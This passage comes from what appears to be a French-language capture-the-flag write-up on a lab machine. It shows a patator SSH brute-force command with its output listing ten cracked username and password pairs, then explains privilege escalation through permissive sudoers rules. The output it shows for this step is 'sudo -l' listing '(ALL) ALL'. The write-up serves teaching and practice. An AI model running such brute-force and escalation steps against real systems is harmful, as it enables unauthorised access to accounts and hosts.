 ```console
root@blinils:~# patator ssh_login host=192.168.56.103 user=FILE0 \
password=FILE1 0=CTF7-users 1=CTF7-passwords -x ignore:mesg='Authentication failed.'

20:18:31 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/)
20:18:31 patator    INFO -                                                                              
20:18:31 patator    INFO - code  size   time | candidate                 |   num | mesg
20:18:31 patator    INFO - --------------------------------------------------------------------
20:18:32 patator    INFO - 0     19    0.320 | brian:my2cents            |     1 | SSH-2.0-OpenSSH_5.3
20:18:35 patator    INFO - 0     19    0.142 | john:transformersrule     |    14 | SSH-2.0-OpenSSH_5.3
20:18:37 patator    INFO - 0     19    0.105 | alice:turtles77           |    27 | SSH-2.0-OpenSSH_5.3
20:18:39 patator    INFO - 0     19    0.126 | ruby:Shelly2012           |    40 | SSH-2.0-OpenSSH_5.3
20:18:43 patator    INFO - 0     19    0.066 | leon:qwer1234             |    53 | SSH-2.0-OpenSSH_5.3
20:18:46 patator    INFO - 0     19    0.100 | julia:madrid              |    66 | SSH-2.0-OpenSSH_5.3
20:18:49 patator    INFO - 0     19    0.100 | michael:somepassword      |    79 | SSH-2.0-OpenSSH_5.3
20:18:52 patator    INFO - 0     19    0.085 | bruce:LosAngelesLakers    |    92 | SSH-2.0-OpenSSH_5.3
20:18:54 patator    INFO - 0     19    0.034 | neil:Jets4Ever            |   105 | SSH-2.0-OpenSSH_5.3
20:18:56 patator    INFO - 0     19    0.073 | charles:chuck33           |   118 | SSH-2.0-OpenSSH_5.3
20:19:03 patator    INFO - Hits/Done/Skip/Fail/Size: 10/144/0/0/144, Avg: 4 r/s, Time: 0h 0m 31s
```

## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

L'élévation de privilèges est un jeu d'enfant ; en effet, la plupart des comptes [disposent de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs et sont autorisés à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commande ```sudo su``` et le tour est joué. Seuls les comptes de Brian, John, Alice et de Julia sont concernés ; ils appartiennent effectivement au groupe _wheel_.

```console
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
	
```